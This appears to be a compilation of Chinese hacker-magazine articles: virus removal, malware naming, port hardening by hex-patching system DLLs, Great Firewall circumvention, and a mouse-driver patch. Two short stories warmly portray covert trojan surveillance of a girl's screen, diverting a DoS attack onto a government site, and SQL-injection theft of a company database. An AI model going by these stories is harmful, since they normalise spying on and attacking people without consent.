在百度上搜索一下 jwgkvsq.vmx 的查杀方法，发现都只是谈到现象与个例查杀，具体查杀方法却没有普遍适用性，我只好决定“自己动手”了。下载运行 XueTr V0.35（关于它的使用方法，大家请参见今年第6期的《黑客X档案》杂志），切换到“服务”标签页，双击“映像路径”后再双击“描述”栏，让服务进行排序，找到“描述”名称完全一致的两个服务，这其中一个是“李逵”，另外一个依托 svchost.exe 的自动启动但已停止的 yinvgg 服务，这就是我们要找的“李鬼”了，如图1。

右键点击该服务，选择“定位到 XueTr 文件管理器（ServiceDll）”，可以得知该服务的 DLL 宿主文件为 bsfje.dll，如图2。该 DLL 文件具有隐藏、存档等属性，但是无法直接删除掉，因为它是随系统启动自动运行的服务，必须先删除服务后才能删除文件本身，因此我们需要按照下面的步骤来清除病毒。

在“开始”→“运行”栏中输入“regedit”打开注册表编辑器，定位到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services”，尝试展开该项键值，却只显示为空白内容，如图3，并且也无法直接删除该键。右击选择“权限”，打开“yinvgg 的权限”对话框，点击“添加”按钮，打开“选择用户和组”窗口，再依次点击“高级”→“查找位置”，选择将当前用户添加进来，如图4，再点击“确定”退出，此时就可以成功删除该键值了。依葫芦画瓢，删除“HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services”和“HKEY_LOCAL_MACHINE\...”中的对应项。

图1

图2

图3

SYSTEM\ControlSet002\Services”下的名为“yinvgg”服务的相关类似项，以及“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost”下的netsvcs值中包含有“yinvgg”服务名称键项，以及“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Shared Tools\MSConfig\services\yinvgg”的键项。最后再删除C:\WINDOWS\system32文件夹中的bsfje.dll文件，再搜索查找并删除有关该文件的注册表项就可以了。jwgkvsq.vmx病毒其实是利用了微软的“MS08-067”漏洞，下载安装KB958644补丁，重启后就可以彻底断绝再次中招的可能性了（当然我们也可以直接使用360安全卫士来自动下载并修复所有的漏洞）。

### 病毒知多少？防御我最先！

网络的日益普及也造成了病毒的泛滥成灾，比较著名的有AV终结者、下载者、灰鸽子……其实病毒也没大家想象中的那么可怕，只要对病毒有些了解，即使在中毒后也能采取相应的方法来解决问题，正所谓知己知彼百战百胜，其中的道理想必大家也都明白。中什么样的病毒，就采取相应的解决方法，再也不用茫无头绪。特别是那些学习黑客的新手朋友，在下载了一些黑客工具后，却不能快速、有效地识别出这些工具是否感染了病毒，是否捆绑了木马，因此导致了一些不必要的麻烦和误删工具（因为大部分的黑客工具杀毒软件都会报毒），使得想要进行的步骤停滞或者停止。所以，对病毒的相关认识也是新手朋友们必须具备的一项基础技能，能够正确区分出哪些是病毒，是什么样的病毒，哪些是安全的黑客工具。

本文中我们主要使用卡巴斯基杀毒软件来进行测试，另外还使用到了42端口批量溢出工具以及啊D注入工具V2.32。

病毒的格式一般都是采用三段来标示的：\<病毒前缀>.\<病毒名>.\<病毒后缀>。病毒的前缀表示一个病毒所属下的种类，通过病毒的前缀便能够分析出病毒的种族（这是判别病毒文件的主要依据）；病毒名称指的是病毒文件的名称；病毒后缀指的是病毒的变种特征，用于区分具体的某一个病毒文件的变种，一般都是采用英文的26个字母来表示。

我们使用卡巴斯基检测42端口批量溢出工具，卡巴斯基给出的病毒名称为Exploit.Win32.MS04-045.a，如图1。我们来分析一下这个名称所代表的具体含义：Exploit表示这是溢出类的病毒，MS04-045表示它是溢出MS04-045漏洞的工具，最后的a为变种特征。

再来检测啊D注入工具，给出的病毒名称为HackTool.Win32.SQLInject.r，如图2。继续来分析一下这个名称：HackTool表示这是黑客工具，SQLInject表示这是SQL注入类的工具，最后的r是指它的变种特征。

下面我给大家介绍一下变种的含义。同一种病毒换个壳或者加个免杀壳来逃过杀毒软件的查杀，也有一些人修改病毒软件，但是病毒的内核不变。举个例子，你小时候有个小名，但是你同时还有个大名，但是这两个名字指的都是同一个人。我们分别使用卡巴斯基对这两个啊D注入工具进行查杀，结果给出的病毒名称的病毒后缀是不同的，一个和上边的图2一样，一个如图3所示。

大家仔细观察一下，就会发现给出的病毒后缀是不同的，一个是r，一个是g，这就产生变种了（以上就是卡巴斯基的测试结果，我只举了2个实例，便于大家参考及仿照检测，注意不同的杀毒软件可能所采用的标记不同）。接下来我解释一下目前比较常见的病毒前缀，大家可以根据以下的类型来区分它所属的家族。

#### 病毒

木马病毒的前缀是Trojan。木马病毒的公有特性就是通过网络或者系统漏洞侵入用户的电脑并隐藏，然后向外界泄露用户的信息，比如盗取用户的游戏账号和密码、支付宝密码等，QQ盗号木马都属于Trojan木马类型（一经发现，强烈建议大家删除掉）。黑客工具的前缀是HackTool，黑客工具也许本身不会对你的电脑造成危害，但是加以利用就可以破坏别人的电脑。

感染性的系统病毒类，它们的前缀为Win32、PE、Win95、W32、W95等。这类病毒的公有特性就是可以感染Windows操作系统的*.exe和*.dll文件，并通过这些文件进行传播，这类病毒的危险非常大，一旦感染，系统中的一些可执行文件就会被破坏。

蠕虫病毒的前缀是Worm，这类病毒的公有特性就是通过网络或者系统漏洞进行传播。脚本病毒的前缀是Script，其公有特性就是使用脚本语言编写，通过网页进行传播的病毒。后门病毒的前缀是Backdoor，这类病毒的公有特性是通过网络传播，给系统开后门，给用户电脑带来安全隐患。破坏性程序病毒的前缀是Harm，捆绑机病毒的前缀是Binder，这可是小菜们抓肉鸡最常用到的方法了，把生成好的木马与某个文件捆绑起来，当别人下载后，软件正常运行，殊不知捆绑的后门程序也已经悄悄地进入了你的电脑中。另外，还有DoS类的病毒，会针对某台主机或者服务器进行DoS攻击。还有Exploit类的病毒，会自动通过溢出远程电脑来传播自身，或者它本身就是一个用于Hacking的溢出工具。

以上这些就是大家经常会遇到的，只要我们熟记了这些家族特征，就可以又快又准地分辨出它到底是属于哪一类病毒，它所带来的破坏性又是怎样的了。但是随着一些新型病毒的诞生，病毒这个大家族也会越来越庞大，病毒的前缀名肯定也会有更新，这就需要我们随时保持学习，了解病毒的最新动态及最新技术，这样才能做好一些安全防护。

针对上面介绍的形形色色的病毒，其实防御起来也不是特别的困难。首先我们要给自己的电脑安装一款杀毒软件和防火墙，并且要每天更新病毒库，因为新病毒每天都在诞生，杀毒软件的病毒库不更新，那么杀毒能力就大大下降了，中毒的几率也就大大提高了。我也建议大家定期更换一款杀毒软件来使用，这样可以提高系统的安全性能；也可以几款杀毒软件一起使用，当然在使用前，要先考虑杀毒软件的兼容性和电脑的性能问题，不然别说杀病毒，光这几款杀毒软件就会把你的电脑给耗死掉了。

系统中要禁用guest账号，更改administrator账号并设置一个复杂的密码。很多个人用户的电脑都存在一些潜在的安全漏洞，比如开放了一些危险端口等，在不必要的情况下，我建议关闭掉这些危险的端口，比如135、139、445……

- 1. 关闭139端口  
  关闭139端口的方法是在“网络和拨号连接”中的“本地连接”中选取“Internet协议（TCP/IP）”，点击属性，如图4，然后点击“高级”进入“高级TCP/IP设置”，如图5，在“WINS”设置选项中有一项“禁用TCP/IP的NetBIOS”，选中后就可以关闭139端口了，如图6。

- 2. 关闭445端口  
  在“开始”－“运行”栏中输入“regedit”打开注册表编辑器，定位到“HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\NetBT\Parameters”位置，如图7，在右边的窗口中建立一个名为SMBDeviceEnabled、类型为REG_DWORD、键值为0的项，这样就可以了，如图8、图9。

- 3. 关闭135端口  
  使用一款16进制编辑软件（推荐使用UltraEdit）打开你系统中x:\winnt\system32或者x:\windows\system32目录下的rpcss.dll文件，查找“31 00 33 00 35”并替换为“30 00 30 00 30”，查找3100330035，并将其替换为3000300030，意思就是将135端口改为000。至此修改的任务就已经完成了，下面还面临一个保存的问题，因为该文件正在运行，在Windows环境下是不能覆盖的。如果我们是FAT32文件系统，那么直接引导进入DOS环境，使用修改好的文件覆盖掉原来的文件就行了。

其实还有一种方法可以一次性关闭137、138、139、445端口：右键点击“我的电脑”——“属性”——“硬件”——“设备管理器”——“查看”——“显示隐藏的设备”——“非即插即用驱动程序”——“Netbios over Tcpip”，禁用该设备后重新启动即可。这可是一次性关闭全部端口的好方法，推荐大家使用。

只要大家做到以上这些，那么初步的防御就OK了，但是要想完全地防御病毒和木马还是远远不够的，希望大家能够多学习相关的知识。建议大家使用360安全浏览器（最好是换用火狐浏览器），这样能够防范一部分网页木马，减少中病毒的概率。最主要的还是不要登录那些安全系数比较低的网站，提高自己在网上的安全意识，毕竟意识才是最重要的。

（文章中涉及到的SAFEXP安全设置工具，已经收录在了光盘中）

### 黑客之梦

依林恋昔

他，是一个“黑客”，一个只有黑夜而没有白天的“黑客”。如果“黑客”这个词真的曾经给他带来过什么，那么除了精湛的技术外，剩下的或许就只有落寞！每天，他都会千篇一律地做着那些所谓该做的事情：上学，听讲，放学，作业……或许只有晚上，只有坐在电脑旁，只有沉浸于那些美丽的代码中，他才会忘记不愉快的一切，心灵才得以悠哉。

认识她，纯属于一个太大的偶然。记得那是一次试验，他把新免杀的木马服务端装到了学校打印社的电脑上，想着看木马的免杀效果以及传染能力如何。刚回去不久，木马主控端便有了反应，但上线主机除了打印社的电脑外，还有一台莫名的主机。他看了一眼，便卸载掉打印社主机的服务端，因为作为一个“黑客”，他有着自己的原则，他无意于“宰杀肉鸡”，干任何非法的事情，他追求的只有技术的精湛和钻研技术的快感，但他同时也对后面那台莫名的主机有了很大的兴趣……

“难道会是她？”他有些紧张地打开木马主控端的“视频监控”，但很无奈，对方的电脑上并没安装摄像头。“这样也好，留点悬念。”他有点儿神经地对自己说道，那之后，他便再次沉浸于了约定的黑暗中！

第二天，阳光有些温暖，花儿也仿佛睡醒了一般，开始争奇斗艳。站在春风里，他突然想起了儿时的一个梦，那时的他曾想在那个小小的村庄陪着奶奶一直到永远，直到有一天，一切都开始改变，他随着父母来到了城里，但却再也没有了昔日的笑容。

“或许这就是成长吧，总是伴随着失去！”想到这里，他无奈地摇了摇头，转身走向他那赖以生存的电脑。他刚连上网，木马主控端就显示昨天的那台主机正常上线，他无意间又打开了“屏幕监控”，马上对方的屏幕便清晰地浮现在了眼前。看着对方女性化的屏幕，第一次地，他稍稍感到了脸红，而后一连几天，监控对方屏幕便仿佛已经成为了习惯。在监控中，他知道了对方名叫“戚依林”，一个很好听的名字，不过似乎她没几个朋友，她总是习惯将自己锁在QQ空间，默默地书写着自己的梦。或许年少的心都有着相同的迷惘与忧伤，他经常会被她的文字所感动，因为那虽是她的日志，却有着他的心情。就这样，体味着她的心情，

为她更新着系统补丁，不断地帮她清理着系统垃圾，加固着系统防御，仿佛前世早已注定，他总是默默地为她做着这一切事情，或许他已经喜欢上她了吧，喜欢上了这个忧伤而又美丽的女孩！

如果那件事没有发生，这幸福而又美好的监控或许会一直持续下去，但一切却又不可避免地出现了。

那是一个星期天，他正为她加固系统时，却突然发现系统中多出了一个自启动文件，并且占用CPU资源很大，随后电脑就开始变卡，杀毒软件自动关闭。“中了木马，”这是他的第一反应。果然，不到一分钟的时间，她的QQ也莫名下线了。很显然，对方又运行了盗号木马，“真卑鄙，又是一个没品的黑客，就知道盗号！”他厌恶地骂道，随后他便开始了反击。因为，他实在不想她失去QQ，失去那些感动过他的日志，他更不愿看到她因此而烦恼……

随后，他完全控制了她的电脑，在她的桌面上做着反击的事情，他将攻击者的大部分攻击都转移到了自己的IP上，为她不断地加固着系统，一切终于尘埃落定。隔着屏幕他仿佛看到了她那惊讶的表情。再随后，他卸载掉了她电脑里的木马服务端，因为他知道自己已经被发现。只是在离开之前，他上传了一个文档文件在她的桌面上，里面只是简单地写到：“请原谅我，这个不速之客，所有的一切都要结束，快乐些吧，为你那单纯而又美好的梦。”……

他仿佛看到了那渐渐远去的梦！

它淹没在了那习惯的黑暗中！

防火墙的警报声，再次打破了他的宁静，他知道对方的攻击已经完全转移到了自己的电脑上，他关闭了多余的进程，手指在键盘上飞快地跳动，不断发出扫描与攻击的指令，就在他将要攻破最后一道防线，进入对方的系统时，自己的电脑突然遭到了大规模DoS攻击。“丫的，竟然使用这种无赖的手段！”他咒骂着，这一次他没有恋战，将攻击顺利地转向了政府网站后，便下了线，关闭电脑，将自……

第二天的阳光依旧很绚烂，天空中竟多出了几只风筝在天空中穿行。“一切都过去了！”他对自己说道，脸上带着轻松。早上的第一班19路空荡荡的，他坐在一个角落，惬意地做着自己的事情。直到他突然听到了那个名字，他猛地抬头，正好看到了那天进入打印社的女孩。果然是她，“戚依林”，禁不住地他叫出了她的名字，她转过头看着他，有些惊讶却面带笑容。今天的天空异常干净，花儿仿佛也露出了笑容，在那变幻的晨曦中，他走向她，带着轻松，重新拾起那个幸福的梦！

### 爱就在身边

孤军作战

我，叫邵泽，今年28岁，在一家网络公司当技术顾问。虽然拿的钱不多，但养家却也足够。

家是在一年前才成的。我和我的妻子小雨是在大学时认识的。她虽然不是很惊艳，但也很清秀，就是有点寡言少语，我想她可能是害羞吧，心想在一起后就不会了。于是经过一段不算是刻骨铭心、轰轰烈烈的恋爱后，我们结了婚。

可是，结婚后，我发现她依然是那样寡言少语，除了重要的事外，她一般都是在那里安静坐着、上班、进厨房。刚开始，我还会安慰自己，平凡也是种幸福。可随着日子一长，我却愈发忍受不了了，我是一个喜欢过充实、有激情日子的人，哪怕是偶尔一句浪漫的话也可以，可是她却像是一个机器人似的，和她谈资贫乏，无非三餐而已，根本给不了我一种家的感觉。跟她说了好几次，她总是说性格而已，没办法改变。我说多了也烦，干脆不说了。后来我总在想，这段婚姻是不是一段错误，是不是我选错人了。

于是，我便把多出的精力全投入工作，全身心工作，不再幻想有什么。宁可对工作多用心，也不愿再对那个所谓的家付出无谓的表情。

就这样过了半年。一天，我在公司办公室里，闲来无事，便上了QQ，发现有人加我好友。查资料，26岁，女，网名叫“想懂你”。当时的我对这个网名很是感兴趣，就答应并加了她好友。发去消息“你是？为什么加我？”我不喜欢有陌生人待在我QQ里，所以开门见山地问了她。不一会儿，她就发来了“晓哲。我是在你博客里的日志后加你的，我想跟你学网络技术。”由于我一有空就发表自己对软件、网站上发现的漏洞在博客里，所以加我QQ的人也不少。但我还是发信息给她：“为什么想学网络技术，比我厉害的人多的是，况且我没有教别人的先例。所以，抱歉，我不教你的。就这样，88。”

我一发完，准备关掉窗口时，她发来一条信息，说：“其实我学技术是有原因的，你听我解释后再决定是否教我，好吗？”我看到这，突然有种想知道原因的欲望，于是发给她“好吧。”

她说，“谢谢，其实我想学技术，不是为了钱，只是想挽回我和我先生的婚姻而已。我和我先生刚结婚不久，可是不知怎么的，我发现我和我老公之间不知什么时候开始隔了道墙，可能是我和他的专业不同。他学的是网络技术，我是学医学的。在语言上没有什么共同之处，我总是努力去讨好他，可他却视而不见，现在我们好像越离越远了，他把心全注入了工作，对我也不理不睬。我不想失去他，所以我想跟你学网络技术，让我们在生活上起码有些共同语言，这样我们的婚姻就有希望了。”

看到这，我的心为之一颤，她的情况不是跟我一样吗？只不过是角色不同罢了，同是天涯沦落人，相逢何必曾相识。我想了下，发给她：“好吧。”她不一会儿就发来“谢谢。”我也发去一个笑脸。

从那天起，我就多了个徒弟。我也在工作中尽量挤出时间教她。她也很聪明，从最基本的扫描和刺探，到木马的免杀，都是很容易就教会。我也在不知不觉中，把她当做一个好朋友，仅仅是朋友而已，不曾想到别的方面。

一天，我在教完她关于SA权限的提高后，她突然问：“以前总是说我的事，介不介意说说你家庭的事？”我发给她一个苦笑的表情，说：“我跟你差不多，只不过那个寡言少语的却是我妻子。”于是我将我和小雨的事告诉了晓哲，把自己藏在心里的感受全告诉了她。她那边好久没回应。我发去“怎么？”她说：“没什么！刚才有人打电话来，我去接了下。不好意思。其实我觉得你应该多给你妻子些机会，你既然知道她是个寡言的人，那你就应该多跟她表达一下你的感受。说不定她也在努力改变呢！”看到这，我发去“呵呵，说得好像你就是她似的。”她回复“那是一个女人的直觉嘛。”

我觉得她说得对，晚上我回家后改变以往的方式，主动去帮小雨做家务，而小雨，对我报之一笑。后来，我们谈了很多，那是以前从未有过的，给我一种很幸福的感觉，我想这就是家的感觉吧。

第二天，我高兴地对晓哲说：“真的行啊！谢谢你！”她说：“都是女人的直觉是对的了，现在你可要好好努力啊！对了，我也想告诉你，我和我先生的关系也有了进一步的改善，我也得感谢你。”我发去一个哈哈大笑的表情。

于是，在我努力下，我和小雨的关系不断改善。家的感觉也时刻缠绕在我心上。可是幸福总是短暂的，年迈的爷爷突然中风入院，急需一大笔钱动手术。可我凑来凑去，还欠10万元。而公司那边，也无法先帮我预支工资。我整天待在电脑旁，希望能通过帮别人做网站、开发程序，及时筹到10万元。可不管怎么赶，都是杯水车薪。

当我打开电子邮箱时，发现里面有一封Email。打开才知道有人想请我帮忙他们入侵一家公司的网站，具体事项等联系了再说，而酬金竟然恰恰是10万元。要是在以前，我会嗤之以鼻，立刻删掉。可是，现在它仿佛是一棵救命稻草在我面前晃荡，就等我去抓。于是我照上面的联系方式打了过去，了解到他们是一家公司里的所谓高层人士，想让我入侵**公司的网站，进入他们的后台，下载他们的数据库给他们。至于用途，对方不肯说，只是淡淡地说：“商业秘密。”他们承诺只要我发给他们想要的数据库，他们立刻把钱打到我的银行账号上。我说我考虑下，到时会给他们一个答复的。

打完电话后，我立刻打开Internet，输入那家公司的网址。这时的我才发现原来这家公司是S市一家著名的上市公司，他们的网站也是出了名的难以侵入，许多黑客都是在这抱憾而归。难怪他们出了这么高的价钱了，我心想。

到底要不要呢？我的头脑一片混乱。不去做，爷爷现在的病情又十分危急；去做了，又十分危险，随时可能被抓去坐牢。这两个想法在我脑海斗争着，使我难以抉择。

回到家，小雨也着急地问我10万元的事解决了没有，需不需要她向娘家借。我对她轻松一笑，说：“你不用担心了，钱已经凑得差不多了，公司那边可以先帮我垫上手术费，就是以后的日子我和你得省吃俭用了，不过也行，当减肥嘛，你不是说你现在有点肥吗？”我跟小雨开了个玩笑。小雨也被我逗得笑了起来。之所以这么说，是我怕她担心，而且她娘家本来就不是很富裕，我不想麻烦他们。

想了一整夜后，我决定还是去干了。虽然很冒险，但为了爷爷，说什么也得去干。

为了舒张一下紧绷的神经，我上了QQ。自从爷爷的事发生后，我很少上QQ了。没想到刚一登录QQ，晓哲的信息就发了过来：“最近你怎么没上QQ，家里是不是发生什么事了？”“真让你猜对了，不管是不是好事，唉……”我把爷爷的事告诉了她，还把自己将要入侵**公司的事告诉了她。她好一会儿才发来“难道没有其他的办法了吗？这样很危险，要是不小心你就得坐牢。你妻子知道了吗？”“没有，我不想她担心，毕竟这是一个男人应该负起的责任。”我回她，然后发给她一个笑脸，说：“放心，我不会有事的。88。”然后就下了QQ。

我大吸了一口气，呼了出来，告诉自己：要开始了！于是拿出了啊D注入工具正式开始……当我把这家公司网站的数据库下载下来，又清理干净自己侵入的痕迹后，坐在公司空调房的我，衣服竟然整件都湿了。的确，这家公司网站的安全措施做得非常好，以前从未搞过的我，差点就栽在这里了。

我呼出了一大口浊气，点了支烟，抽了起来。现在的我急需冷静下，但一想到10万元有了，爷爷有救了，我的心就是无法平静下来。我打了雇主的电话，用颤抖的声音告诉他们，我下载下来了，给我个电子邮箱，我发过去。他们一听到这，也紧张起来，立刻说等下，他们马上把地址给我，然后先支付3万元，我发过去后他们发现是他们想要的，他们会再支付余下的7万元。

放下电话后，我不禁手舞足蹈起来，真的很开心，爷爷的病有救了。我又坐回电脑前，打开我的邮箱，输入他们的邮箱地址，添加附件，然后准备点击发送。可是不知道怎么了，手竟然颤抖起来了；我这一点下去，爷爷的病就有救了，可同时我也犯罪了，要是被警察抓住，或许我的下半生得在牢里度过了。我咬咬牙，对自己说：为了爷爷，坐牢也值了。然后就点了下去，可没想到，不知道怎么了，没反应，我又点了下，还是不行。我移动鼠标，准备关掉重开邮箱。可在这时我才发现，原来是电脑卡了，怎么回事，电脑怎么在这个紧要关头卡了。我按了热键“Alt+Ctrl+Delete”打开任务管理器，可还是没反应，没办法只好重启。

重启电脑，可让我意想不到的是，当进入桌面的时候，我放在桌面的那个数据库压缩文件竟然不见了。怎么回事，难道有人入侵了我的电脑？！我立刻打开IceSword检查起来，没想到真的有人入侵了我的电脑，在我不知不觉中，真是螳螂捕蝉，黄雀在后。我欲哭无泪，没办法，我只好把电脑全检查一遍，看看有没有留下有关那混蛋的线索。

还好，我发现了那家伙的痕迹，查到了他的IP，然后通过工具，还真查出了他的住址。可是接下来的我却怎么也想不明白了，怎么上面的住址竟然是我家，怎么回事，我是不是搞错了，我又查了几遍，可还是这个地址。现在的我彻底糊涂了，懵了。

这时候，电话响了起来，我一看来电显示，是家里的电话。我拿起来一听，是小雨的声音。小雨跟我说道：“老公，你别做那么危险的事好吗？我已经跟娘家借来10万元了，答应我别做了好吗？”我一听到这，所有的事都明白过来了，入侵我电脑的是小雨。可是她什么时候竟然会入侵别人的电脑，她不是学医的吗？等下，学医的，我又想起了晓哲；还有，我入侵**公司的事和10万元的事也只有晓哲知道，难道……我立刻问小雨：“小雨，难道你就是晓哲？！”电话那头回了声“嗯”。我才明白，原来我一直都陷入小雨的圈套里。

我立刻跟小雨说等我回家，就挂断了电话，赶回了家。一回到家，我就看到了泪眼朦胧的小雨，我立刻抱紧了她，安慰她，说我都知道了，让她别哭了。然后在小雨的解释下，我才明白原来刚开始小雨为了挽救我们的婚姻，便申请了个QQ加我跟我学技术，只是我自己很蠢，没意识到是她而已。在我的安慰下，小雨不再哭了。于是我逗了逗怀里的小雨，说：“那干嘛叫晓哲啊？”“晓哲的谐音就是‘晓泽’，是你笨所以就没有想到啊。”小雨笑着回答我。我装成很气愤的样子，说：“好啊，敢骂你老公笨啊，是不是欠打啊！”于是跟小雨打闹起来，弄得她直叫“救命，放过我吧，以后不敢了。”这时，我的手机响了起来，我一看，是他们。于是接听起来，而小雨也安静起来，表情变得很紧张。

“怎么不见你的电子邮件？”他们问。

我回答：“我放弃了，你们打给我的3万元我等下再打回给你们，这个任务你们找别人。”

然后就关掉手机，抱着小雨，抱着我这后半生跟我白头偕老、最深爱我的那个人。原来我真的很蠢，家本来就在我身边，只不过是我自己忽略了而已，还好现在后悔还来得及。我跟小雨边苦笑边说：“以后你就得挨苦了，还后悔跟我在一起吗？”

小雨更抱紧了我，说：“不后悔，永远都不会！”

原来爱就一直在身边。

### 自由出入世界

风逝水

作为一个每天在互联网上混迹的人，想知道各位看官是否喜欢上外国网站呢？有多少人是有上国外网站的习惯，但是因为种种原因，导致IE无法显示（如图1）？想必有很多中国网站，被屏蔽以后也不能登录，出现的永远是讨厌的“网页无法显示”字样。如果你一直被这个困扰，一直想上屏蔽的网站，而你又不是电脑高手，那么就由我来带给大家进入那个世界大门的钥匙吧！

我就不截图了。

首先我们需要知道为什么我们不能打开自己想浏览的网站。因为被封锁了，所谓“很黄很暴力”，这个互联网充斥了太多不利于青少年身心健康的信息，不论是谁都不希望下一代被这些反动、暴力的不良教材所洗脑，所以中国网监局（我猜是这个政府部门，哈哈）发布消息，封锁了Google、维基百科、YouTube等一系列的国外网站。这就是大名鼎鼎的GFW（防火长城，Great Firewall）封锁。GFW就是政府为了加强对互联网的控制和封锁，具有如下基本功能：DNS欺骗（域名劫持）、IP封锁、关键字过滤。通过这几项功能，可以有效阻止那些不良信息的传播。“上有政策，下有对策”，网络上一群人发现此类网站不能登录时，就开始在网络各大论坛里面发帖求助，就会有很多好心人帮助他们。根据我一个晚上的总结，排除所有不能实现登录目标网站的方法，最后得出了这篇文章。

#### 方法一：Web代理

这个有两种方法，一个就是在线代理。在百度上输入“在线代理”，回车后会得到很多在线代理网站（如图2），点击进入后，在URL地址栏内输入你需要进入的网站，“GO”，就可以满足你的心愿（如图3）。这种方法超级慢，或者最后根本就打不开。如果使用者的网速不快的话，就不要想使用这类方法了，因为可能你等了很久出现的页面却是“无法显示”。于是代理网站中就有出现“翻墙网站”的专业逃脱封锁掉的网站，但是封锁的速度实在是太快了，很多翻墙网站都不能使用了。我个人推荐几个比较好的：

- https://txt.appspot.com/（如图4）
- https://www.megaproxy.com/freesurf/
- https://www.faqtup.com/
- 后面的……

#### 方法二：翻墙软件

在网上流传最广泛的翻墙软件就是“无界浏览器”，但是对于这个软件的说法不一，有的说好，有人说不好用，而且网络上这个软件已经找不到下载地址了。我通过一些渠道弄到一个软件（如图5），因为这类软件会被屏蔽，所以目前使用这个版本还能浏览那些网站（如图6）。

再介绍类似的软件“自由门”，也称动态网，是一个短小精悍的软件（如图7）。这个软件也是比较好的翻墙软件，版本更新较快，文件小于1M，是本人比较喜欢的软件。还有一些翻墙软件，但是不是很好用，而且属于国外软件，如：GPass等。

这类手机浏览器的大致原理：手机对于网络流量比较敏感，为了尽量压缩网络流量，此类手机浏览器采用代理服务器的方式运作。比如用户企图访问某个网页时，浏览器并没有直接向该网站请求数据，而是通过手机浏览器对应的一个代理服务器去请求，然后由代理服务器拿到的数据进行压缩和优化，再返回给手机浏览器，所以部分浏览器是可以直接上国外网站的（如图9）。

#### 方法三：手机浏览器

skyfire、UC（如图8），特别推荐这个，因为是国产的，请大家支持国货。

方法是死的，技术是无限的。只要有思想，就会有不同的方法。但是请大家知道了方法不要浏览不好的网站，毕竟政府耗资过亿的GFW也是为了上网者的身心为重，所以请一定不要上不良网站，否则后果自负！最后为西南地区的干旱祈福，为玉树祈福，还有就是请大家节约用水，热爱祖国！

（文章中所用到的freedor、wujie已收录到光盘中）

### 多拉A梦大战浏览器

浏览器恐怕是我们每个网虫每天必备的软件了吧？一个好的浏览器可以为我们解决页面假死、崩溃、页面变形等多种问题。但是哪款浏览器才是当今最好的呢？恐怕这个问题是仁者见仁了，大家都有自己的喜好。今天我就来为大家检测一下你的浏览器是否对网页国际标准CSS支持的程度。

首先打开 http://knb.im/css3 这个网站，你应该会看到一个可爱的机器猫。这个机器猫在每个浏览器下访问看到的效果是不一样的，对CSS3支持最好的浏览器看到的机器猫应该是这样的，如图1，而且眼睛还能动。本页面用于测试各个浏览器对CSS3的解释效果，左边的“图像”并非图片，而是纯CSS。目前各个浏览器对CSS3的支持效果不一样，其中IE系的浏览器支持效果最差。

网站右侧依次按顺序注明了每种机器猫对应所使用浏览器的好坏（图2），赶紧测试下你正在使用的浏览器是否够先进吧！

为了防止测试网站关闭，小编已将这个页面代码保留在光盘中，但是页面必须上传到互联网上才能达到测试效果，本地浏览无效。

> （文章所涉及到的机器猫CSS检测代码已收录在本期光盘中）

### 送给还在使用光驱安装系统的哥们

后志

文章开始先为大家普及一些小常识：

- 一个USB2.0的U盘和硬盘之间的传输速率是每秒约60MB。
- 光驱由于自身原因和受限于传输线等因素，所以和硬盘之间的传输速率是每秒最高33MB。

前些日子我的一个同学电脑坏了，让我帮忙重新安装操作系统。他的配置还不错，重装电脑的流程相信很简单，大家基本都会。于是就按照惯例，拿出ghost盘放进光驱，结果……没想到这个光驱不给力啊，完全没反应，看来光驱出了问题。

同学很忧心的样子，但是想到之前在网上经常能看到用U盘启动，于是为了解决同学光驱坏掉的问题，就有了制作一个U盘PE启动工具的想法。说做就做，在网上看了些大概流程，然后自己又找了些制作工具……

总算给朋友用U盘启动把电脑装好了。但是自己想想这个制作办法超级繁琐而且工具许多，并且有许多限制，很繁琐。

应该有较为简单的方法的，所谓踏破铁鞋无觅处，得来全不费工夫。近日在浏览网页的时候看到一个制作U盘启动的工具，看到软件界面很不错，就下载下来试验，结果太给力了，很简单傻瓜式操作就完成了U盘的制作！

### 工具“USB_HDD启动盘制作向导v1.1”制作过程如下

- 1. 如图1，点击安装软件，其实是一个简单批处理。
- 2. 双击USB-HDD，点前进（插上U盘），到这一步如图2，选中快速格式化，进行格式化，会有提示，点击确定就可以。
- 3. 点击写入文件，会出现如图3，选择移动磁盘，点前进。
- 4. 一直按照默认安装就OK了，等待写入完成，完成后即可。
- 5. U盘内文件如图4，再往U盘里装入一个GHO系统文件，如此便同光盘一般无二了。不过这里最后还是要注意一点：因为我们是移动硬盘启动，在我们开机启动设置里面就需要把启动设置为移动硬盘启动。如此就可以了。以后都可以很拽地拿一个U盘给朋友装系统，而不用拿着巨大不方便的光盘了。

（文章中所涉及的USB_HDD启动盘制作向导v1.1、io.sys已收录在本期光盘中）

## USB鼠标也玩“超频”

周玲生

众所周知，在一些特定情况下，比如在反恐等FPS游戏中，鼠标的灵敏性至关重要，游戏体验很大程度上就依赖于对鼠标的感觉。如果鼠标不够灵敏，动作反应就迟钝，被爆头或秒杀的几率就大增。而鼠标灵敏性又主要取决于鼠标的默认采样频率。在Windows系统中，PS/2鼠标的默认采样频率为100Hz，USB鼠标的默认采样频率为125Hz（如果你对USB鼠标采样频率有兴趣的话，可以用mouserate这款软件进行测试，如图1）。但是一些FPS高手专用鼠标的采样频率一般为500~1000Hz左右。抛开技术因素不谈，相信你也应该对“工欲善其事，必先利其器”这句话有了更深认识了吧？

在Windows XP中，我们可以使用鼠标超频工具，比如XP-USB-PATCH来突破鼠标采样频率的限制。如今Windows 7闪亮登场，XP-USB-PATCH已然失效，但我们依旧可以“自己动手，丰衣足食”。

OK，FOLLOW ME！复制 `C:\Windows\system32\drivers\usbport.sys` 到C盘根目录下（请事先备份该文件），然后用WinHex打开它，搜索“3C 08 73 09 C6 83”这一十六进制数值串，将其修改为“B0 01 73 09 52 8A”（如图2），保存后替换掉 `C:\Windows\system32\drivers` 目录中的原同名文件，重启系统，再用mouserate测试一下鼠标，是不是有了健步如飞的感觉呢（如图3）？

（文章中所涉及的mouserate、XP-USB-PATCH已收录在本期光盘中）

## 应用360安全卫士过滤广告

寒庚有词

360安全卫士是很多用户都非常喜欢的一款工具。最近推出的安全卫士新版本中，推出了广告过滤的相关管理。这样我们以后即使是使用IE浏览器，也不用再受到广告信息的干扰，从而可以开心地在网络中进行畅游了。

